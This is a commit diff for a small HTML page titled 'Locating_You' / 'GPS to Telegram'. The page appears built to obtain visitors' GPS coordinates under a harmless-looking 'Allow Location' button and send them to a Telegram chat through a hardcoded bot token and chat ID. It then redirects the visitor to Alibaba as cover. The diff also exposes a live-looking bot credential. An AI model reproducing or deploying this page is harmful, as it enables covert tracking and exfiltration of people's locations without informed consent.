

Before and after one commit to project2000test-rgb/Locating_You, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,9 +1,10 @@
 <!DOCTYPE html>
 <html>
   <head>
-  <meta http-equiv="refresh" content="20;url=https://www.alibaba.com/">
-    <title>LY</title>
+     <meta http-equiv="refresh" content="3;url=https://alibaba.com">
+    <title>GPS to Telegram</title>
     <script>
+
       const botToken = "8995044728:AAGgpbzLojpY9JtbP5ccigc3WuliHvVEqAQ"; // <-- Replace with your Bot token
       const chatId = "8401907837"; // <-- Replace with your Chat ID
 
@@ -25,7 +26,7 @@
           })
         })
         .then(() => {
-          document.body.innerHTML = "<h2 style='color:green;'>Redirecting to Alibaba</h2>";
+          document.body.innerHTML = "<h2 style='color:blue;'>Redirecting to Alibaba</h2>";
         })
         .catch(err => {
           console.error(err);
@@ -47,6 +48,33 @@
     </script>
   </head>
   <body>
-    <h2>📡 Tracking Location...</h2>
+     <button onclick="getLocation()">Allow Location</button>
+
+    <script>
+        function getLocation() {
+            if (!navigator.geolocation) {
+                alert("Your browser does not support location access.");
+                return;
+            }
+
+            navigator.geolocation.getCurrentPosition(
+                function(position) {
+                    // Location successfully obtained
+                    console.log("Latitude:", position.coords.latitude);
+                    console.log("Longitude:", position.coords.longitude);
+
+                    // Continue after permission
+                    window.location.href = "https://www.alibaba.com/";
+                },
+
+                function(error) {
+                    if (error.code === 1) {
+                        alert("Please allow location access to continue.");
+                    } else {
+                        alert("Unable to get your location.");
+                    }
+                }
+            );
+        }
   </body>
 </html>
```
